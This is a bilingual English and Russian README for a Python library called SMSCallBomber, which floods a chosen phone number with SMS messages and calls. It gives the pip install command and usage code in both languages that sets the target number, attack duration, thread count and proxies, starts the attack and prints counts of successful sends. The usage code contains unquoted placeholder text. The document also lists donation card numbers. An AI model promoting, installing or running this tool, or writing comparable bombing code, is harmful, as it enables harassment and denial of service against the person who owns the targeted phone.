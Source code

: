 # SMSCallBomber

## English(Русский ниже)

### Description

This library provides functionality for SMS and call bombing.

### Installation

You can install the SMSCallBomber library via pip:

```bash
pip install SMSCallBomber
```

### Usage

```python
from smscallbomber import SMSCallBomber
import time
import threading
from argparse import Namespace

# Creating an instance of SMSCallBomber
args = Namespace(country='Two letter country code (Specify ALL for all countries)', phone=Phone number for attack (without +), time=Attack time in seconds, threads=Number of threads, timeout=Request timeout, proxy=Whether to use a proxy for attack (True or False or {"http": "http://your.proxy.com", "https": "http://your.proxy.com"}))
args.time += time.time()

attack_threads = {}
bombers = {}
bomber_id = 1234567890

# Starting the attack
def attack_thread_runner(args):
    bomber = SMSCallBomber(args)
    bombers[bomber_id] = bomber
    bomber.run()

attack_threads = threading.Thread(target=attack_thread_runner, args=(args,))
attack_threads.start()

# Stopping the attack
attack_threads.join(0)
del attack_threads
time.sleep(5) # Increase the time if the results contain zeros
bomber = bombers[bomber_id]
bomber.stop()
successful, failed = bomber.send_report()
print(f"Successfully sent (Not everyone can get there!): {successful}")
print(f"Failed to send: {failed}")

# Returns the result of the attack after it ends
time.sleep(Attack time in seconds)
time.sleep(5) # Increase the time if the results contain zeros
bomber = bombers[bomber_id]
successful, failed = bomber.send_report()
print(f"Successfully sent (Not everyone can get there!): {successful}")
print(f"Failed to send: {failed}")
```

It is also possible to use in an asynchronous environment if you slightly modify the code and use 
```python
await bomber._run()
```

### Donation

If you find this project helpful and would like to support its development, you can make a donation to the author.

- YooMoney: 4100118510603906
- Cards:
  - 2200 7009 6755 8080 - Tinkoff
  - 2202 2068 1279 8101 - Sberbank
- Other methods: [t.me/BabayHelpBot](https://t.me/BabayHelpBot)

### License

This project is licensed under the MIT License.

## Русский

### Описание

Эта библиотека предоставляет функционал для SMS бомбера со звонками.

### Установка

Вы можете установить библиотеку SMSCallBomber с помощью pip:

```bash
pip install SMSCallBomber
```

### Использование

```python
from smscallbomber import SMSCallBomber
import time
import threading
from argparse import Namespace

# Создание экземпляра SMSCallBomber
args = Namespace(country='Двухбуквенный код страны (Укажите ALL для всех стран)', phone=Номер телефона для атаки (без +), time=Время атаки в секундах, threads=Количество потоков, timeout=Время ожидания запроса, proxy=Использовать ли прокси для атаки (True или False или {"http": "http://your.proxy.com", "https": "http://your.proxy.com"}))
args.time += time.time()

attack_threads = {}
bombers = {}
bomber_id = 1234567890

# Запуск атаки
def attack_thread_runner(args):
    bomber = SMSCallBomber(args)
    bombers[bomber_id] = bomber
    bomber.run()

attack_threads = threading.Thread(target=attack_thread_runner, args=(args,))
attack_threads.start()

# Остановка атаки
attack_threads.join(0)
del attack_threads
time.sleep(5) # Увеличьте время если в результатах по нулям
bomber = bombers[bomber_id]
bomber.stop()
successful, failed = bomber.send_report()
print(f"Успешно отправлено(Дойти могут не все!): {successful}")
print(f"Не удалось отправить: {failed}")

# Возвращает результат атаки после её окончания
time.sleep(Attack time in seconds)
time.sleep(5) # Увеличьте время если в результатах по нулям
bomber = bombers[bomber_id]
successful, failed = bomber.send_report()
print(f"Успешно отправлено(Дойти могут не все!): {successful}")
print(f"Не удалось отправить: {failed}")
```

Также возможно использование в асихронной среде, если немного переделать код и использовать 
```python
await bomber._run()
```

### Пожертвование

Если вы нашли этот проект полезным и хотели бы поддержать его развитие, вы можете сделать пожертвование автору.

- ЮMoney: 4100118510603906
- Карты:
  - 2200 7009 6755 8080 - Тинькофф
  - 2202 2068 1279 8101 - Сбербанк
- Другие способы: [t.me/BabayHelpBot](https://t.me/BabayHelpBot)

### Лицензия

Этот проект распространяется под лицензией MIT License.